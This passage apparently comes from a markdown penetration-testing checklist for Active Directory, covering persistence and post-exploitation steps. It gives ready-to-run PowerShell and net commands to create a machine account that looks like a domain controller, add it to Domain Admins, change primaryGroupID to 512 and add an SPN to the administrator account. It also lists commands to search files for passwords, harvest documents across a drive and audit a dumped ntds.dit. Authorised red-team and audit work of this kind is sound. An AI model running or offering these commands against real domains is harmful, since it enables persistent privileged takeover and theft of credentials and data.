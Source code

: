   ```powershell
  ```

### Persistence Techniques
- [ ] Machine Account Persistence
  ```powershell
  # Create machine account 
  Import-Module .\Powermad.ps1
  New-MachineAccount -MachineAccount newMachine01 -Domain domain.local -DomainController dc01.domain.local
  
  # Change userAccountControl to appear as DC
  Set-ADComputer newMachine01 -replace @{ "userAccountcontrol" = 8192 }
  
  # Add to privileged group
  net group "Domain Admins" newMachine01$ /add /domain
  ```
- [ ] Primary Group ID modification
  ```powershell
  Set-ADUser -Identity user -Replace @{'primaryGroupID'=512}
  ```
- [ ] Add SPN to admin account
  ```powershell
  Set-ADUser -Identity administrator -ServicePrincipalNames @{Add='nonexistant/WHATEVER'}
  ```

## 10. Post-Exploitation & Data Collection

### Sensitive Data Gathering
- [ ] Search for credentials in files
  ```powershell
  findstr /SI /M "password" *.xml *.ini *.txt *.config
  ```
- [ ] Extract browser credentials
- [ ] Extract email data

### User Data Collection
- [ ] Find sensitive documents
  ```powershell
  Get-ChildItem -Path C:\ -Include *.doc,*.pdf,*.xls,*.xlsx,*.docx -File -Recurse -ErrorAction SilentlyContinue
  ```
- [ ] Search for scripts, configuration files

### Password Audit & Reporting
- [ ] Check for weak passwords
  ```bash
  dpat.py -n ntds.dit -c hashcat.potfile -g "Domain Admins.txt" "Enterprise Admins.txt"
  ```
- [ ] Generate reports for credentials found

## 11. Cleanup
